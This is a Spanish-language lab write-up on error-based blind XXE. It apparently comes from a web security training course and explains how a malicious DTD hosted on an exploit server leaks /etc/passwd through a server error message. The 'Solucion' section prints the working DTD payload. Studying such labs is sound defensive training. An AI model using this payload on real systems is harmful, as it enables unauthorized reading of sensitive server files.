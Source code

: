 En esta clase abordamos una variante de XXE ciega que se apoya en mensajes de error para filtrar información sensible. Continuamos aprovechando el sistema de entidades parametrizadas, pero en lugar de usar canales externos como Collaborator, utilizamos rutas inválidas para provocar errores intencionados que revelen el contenido del archivo /etc/passwd.

Preparamos una DTD maliciosa en nuestro exploit server que lee ese archivo y lo introduce como parte de una ruta errónea. Al invocar esa DTD desde el XML enviado al endpoint vulnerable, el servidor intenta acceder a una ruta inválida que incluye el contenido del archivo, lo que provoca un error con el texto completo de la entidad.

Analizamos cómo estructurar correctamente tanto la DTD como el XML final y validamos el resultado observando la aparición del archivo dentro del mensaje de error devuelto. Esta técnica demuestra cómo aprovechar los errores internos del servidor como canal de exfiltración en ataques ciegos.

Solucion
Lo que se realizo como el anterior laboratorio fue poner esto en nuestro exploit server
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
%eval;
%exfil;

y lo que pusimos en el BS fue esto sin modificar nada dentro del xml
![Pasted_image_20250730203420.png](Imagenes/Pasted_image_20250730203420.png)

